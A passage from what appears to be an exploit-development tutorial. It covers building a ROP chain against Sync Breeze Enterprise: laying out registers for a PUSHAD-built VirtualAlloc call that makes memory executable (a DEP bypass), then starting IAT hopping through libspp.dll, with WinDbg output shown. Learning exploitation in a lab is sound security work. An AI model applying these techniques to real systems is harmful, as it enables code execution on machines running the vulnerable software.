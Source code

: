 ```
Push EAX, ECX, EDX, EBX, original ESP, EBP, ESI, and EDI
```

So if we can get the right values in each register then call `pushad` it will create the stack frame.

Looking at MSDN `VirtualAlloc` needs these parameters:
```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

For these we can set the following static values:
```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize, # 0x01 has to be non 0
  [in]           DWORD  flAllocationType, #MEM_COMMIT 0x1000
  [in]           DWORD  flProtect # PAGE_EXECUTE_READWRITE 0x40
);
```

Following the calling convention we need the registers to be set up as follows:
```
EAX = NOP (0x90909090)
ECX = flProtect # 0x40
EDX = flAllocationType #0x1000
EBX = dwSize # not 0
ESP = lpAddress # automatic, as this is the stackpointer lol
EBP = pointer to JMP ESP
ESI = pointer to VirtualAlloc
EDI = ROPNOP (RET)
```

Now the joys of setting this up :D

## IAT Hopping
For lols

In the stream, OJ did IAT hopping, and it was super cool, so I'm going to do it too.

The basic premise is to get the address of a KERNEL32 pointer from `libspp.dll` and then find a offset in KERNEL32 to `KERNELBASE!VirtualAlloc` 

To find a pointer in `libspp.dll` we can dump the import address table for libspp.dll:
```
0:007> lm
start    end        module name
00400000 00463000   syncbrs  C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
007d0000 008a4000   libpal   C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
008b0000 00965000   libsync    (deferred)             
10000000 10226000   libspp   C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\libspp.dll
0:007> !dh 0x10000000
... snip ...
       0  DLL characteristics
  187F40 [   4FC8F] address [size] of Export Directory
  184B00 [      8C] address [size] of Import Directory
       0 [       0] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
       0 [       0] address [size] of Security Directory
```